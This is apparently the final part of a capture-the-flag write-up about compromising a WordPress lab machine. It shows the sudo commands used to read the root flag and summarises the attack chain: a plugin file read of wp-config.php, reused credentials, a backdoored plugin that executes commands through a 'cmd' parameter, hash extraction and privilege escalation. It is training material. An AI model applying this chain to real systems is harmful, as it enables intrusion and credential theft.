

Then I checked sudo rights and confirmed privileged access.

Screenshot:


From there, I escalated to root and read the root flag:
- `sudo su`
- `cd /root`
- `cat root.txt`

Screenshot:
  
Screenshot:


## Vulnerability Chain (Clean Summary)

- Outdated/vulnerable WordPress and plugin surface discovered via WPScan
- Plugin endpoint abuse allowed sensitive file read (`wp-config.php`)
- Reused credentials enabled WordPress login
- Backdoored plugin logic exposed command execution via GET `cmd`
- RCE gave shell access
- Database/user hash extraction enabled lateral movement
- Further credential recovery from backups enabled privilege escalation to root
